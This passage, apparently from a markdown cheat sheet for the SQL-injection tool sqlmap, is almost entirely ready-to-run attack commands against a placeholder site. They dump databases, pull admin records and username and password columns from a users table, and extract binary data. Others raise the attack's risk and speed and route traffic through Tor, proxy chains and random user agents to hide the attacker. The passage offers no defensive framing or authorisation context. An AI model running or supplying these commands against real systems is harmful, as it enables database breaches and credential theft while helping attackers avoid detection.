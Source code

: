 ### Advanced Data Extraction Techniques

#### Chunked Data Extraction
```bash
# Large data extraction with chunks
sqlmap -u "http://target.com/page.php?id=1" --dump --chunk-size=1000 --threads=5

# Specific table extraction
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --dump --where="role='admin'"

# Column-specific extraction
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users -C username,password --dump
```

#### Binary Data Extraction
```bash
# Binary data extraction
sqlmap -u "http://target.com/page.php?id=1" --sql-query="SELECT HEX(binary_column) FROM table_name" --binary-fields="binary_column"

# Base64 encoded extraction
sqlmap -u "http://target.com/page.php?id=1" --sql-query="SELECT TO_BASE64(binary_data) FROM files"
```

### Performance Optimization

#### Multi-threading and Speed Optimization
```bash
# High-speed scanning
sqlmap -u "http://target.com/page.php?id=1" --threads=10 --time-sec=1 --timeout=5

# Risk and level adjustment
sqlmap -u "http://target.com/page.php?id=1" --risk=3 --level=5

# Specific technique selection
sqlmap -u "http://target.com/page.php?id=1" --technique=BEUST --threads=5
```

#### Proxy and Anonymization
```bash
# Tor proxy usage
sqlmap -u "http://target.com/page.php?id=1" --tor --tor-type=SOCKS5 --tor-port=9050

# HTTP proxy chain
sqlmap -u "http://target.com/page.php?id=1" --proxy="http://proxy1:8080" --proxy-cred="user:pass"

# Random User-Agent
sqlmap -u "http://target.com/page.php?id=1" --random-agent --delay=2
```

### Advanced Reporting and Output
